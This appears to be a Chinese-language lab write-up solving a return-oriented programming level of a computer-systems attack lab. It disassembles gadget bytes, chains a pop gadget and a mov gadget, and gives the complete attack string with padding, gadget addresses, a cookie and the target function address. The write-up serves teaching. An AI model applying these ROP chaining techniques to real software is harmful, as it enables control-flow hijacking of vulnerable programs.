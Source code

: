 ``` asm
  401ab1:	c3                   	ret    

0000000000401ab2 <end_farm>:
  401ab2:	b8 01 00 00 00       	mov    $0x1,%eax
  401ab7:	c3                   	ret    
  401ab8:	90                   	nop
  401ab9:	90                   	nop
  401aba:	90                   	nop
  401abb:	90                   	nop
  401abc:	90                   	nop
  401abd:	90                   	nop
  401abe:	90                   	nop
  401abf:	90                   	nop
```



### Level 2
Level 2 需要我们设置 `rdi` 寄存器内容为 `cookie`，然后跳转至 `touch2`。因为没有办法直接 mov 给 rdi，所以我们想到通过 pop 指令从栈中弹出字符串给 `rdi` 寄存器：
``` asm
00000000004019a7 <addval_219>: 
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq  
```
58 90 c3 对应了这样的三个指令：
``` asm
popq %rax
nop
ret
```
所以接下来就需要：
``` asm
mov %rax, %rdi
```
``` asm
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret    
```
48 89 c7 c3 对应了指令。

所以我们的攻击字符串为：
``` txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 # popq %rax
fa 97 b9 59 00 00 00 00 # cookie
a2 19 40 00 00 00 00 00 # mov %rax, %rdi
ec 17 40 00 00 00 00 00 # 返回到 touch2
```
![](2022-4-9/2022-4-9_6.png)
